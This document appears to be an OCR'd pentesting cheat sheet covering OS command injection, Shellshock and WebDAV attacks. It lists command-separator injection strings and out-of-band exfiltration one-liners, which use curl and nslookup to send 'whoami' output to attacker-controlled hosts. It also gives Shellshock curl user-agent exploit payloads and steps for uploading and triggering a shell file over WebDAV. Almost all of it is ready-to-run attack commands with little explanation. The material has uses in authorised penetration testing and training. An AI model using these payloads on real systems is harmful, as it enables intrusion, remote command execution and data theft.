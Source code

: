 ## OS Command Injection

- > Special Characters

```
& command
&& command
; command
command %0A command
| command
|| command
`command`
$(command)

```

- > Out Of Band - OOB Exploitation

```
curl <http://$>(whoami).site.com/
curl <http://`whoami`.site.com/>
nslookup `whoami`.attacker-server.com &
curl <http://192.168.0.20/$(whoami)>

```

- > Check if the commands are executed by PowerShell or CMD

```
(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell

```

## Shellshock

- > Detection

```
nikto -h <IP> -C all

```

- > Exploit

```
curl -A "() { ignored; }; echo Content-Type: text/plain ; echo ; echo ; /bin/bash -c 'whoami'" <IP>
curl -A "() { :; };echo ;/bin/bash -c 'hostname'"  <IP>
curl -A "() { :; }; /usr/bin/nslookup $(whoami).site.com" <IP>

```

## WebDAV

- > Connect to WebDAV server and send malicious file to shell

```
cadaver http://<IP>/webdav
put <shell.asp>

```

```
curl -u "<user>:<password>" http://<IP>/webdav/shell.asp

```

https://github.com/notroj/cadaver
